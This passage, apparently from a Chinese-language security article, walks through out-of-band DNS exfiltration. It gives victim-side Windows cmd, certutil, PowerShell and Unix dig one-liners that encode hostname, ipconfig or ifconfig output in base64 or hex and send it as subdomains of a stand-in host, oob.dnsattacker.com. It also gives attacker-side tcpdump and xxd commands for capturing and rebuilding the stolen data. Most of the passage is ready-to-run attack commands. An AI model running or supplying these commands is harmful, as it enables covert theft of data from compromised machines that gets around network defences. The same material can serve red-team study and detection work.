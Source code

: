 ```
tcpdump -n port 53
```

##### Windows  
  
**受害者：**  

```
cmd /v /c &#34;hostname > temp && certutil -encode temp temp2 && findstr /L /V &#34;CERTIFICATE&#34; temp2 > temp3 && set /p MYVAR=<temp3 && set FINAL=!MYVAR!.oob.dnsattacker.com && nslookup !FINAL!&#34;
```

  
**攻击者：**  

```
echo &#34;encoded output&#34; |base64 -d  # 使用 base64 解码输出
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoTZoRX04P4X5Q0Kvwg1WRwboYIP4CBnNWNtQQMFVJIHyUjxfRhPSZeg/640?wx_fmt=png&from=appmsg "")  
###### 发送多行和大尺寸的输出  
  
**受害者**  

```
cmd /v /c &#34;ipconfig > output && certutil -encodehex -f output output.hex 4 && powershell $text=Get-Content output.hex;$subdomain=$text.replace(' ','');$j=11111;foreach($i in $subdomain){ $final=$j.tostring()+'.'+$i+'.file.oob.dnsattacker.com';$j += 1; nslookup $final }&#34;    # 以 HEX 格式发送文件
```

  
**攻击者**  

```
sudo tcpdump -n port 53 | tee file.txt
```

  
**提取和构造输出：**  

```
echo &#34;0x$(cat file.txt |tr ' ' '\n' |awk '/file.oob.dnsattacker.com/ {print $1}'|sort -u| cut -d '.' -f 2|tr -d '\n')&#34; | xxd -r -p
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoSIYHXQZGiaPxbB8mWttJUQf0SsNX2M5lLKAeP8bWicO5hUS6hIM0wuJw/640?wx_fmt=png&from=appmsg "")  
  
**限制**  
：需要 Powershell  
##### Unix  
  
**受害者：**  

```
var=11111 && for b in $(ifconfig|xxd -p ); do var=$((var+1)) && dig  $var.$b.file.oob.dnsattacker.com; done   # 以 HEX 格式发送文件
```
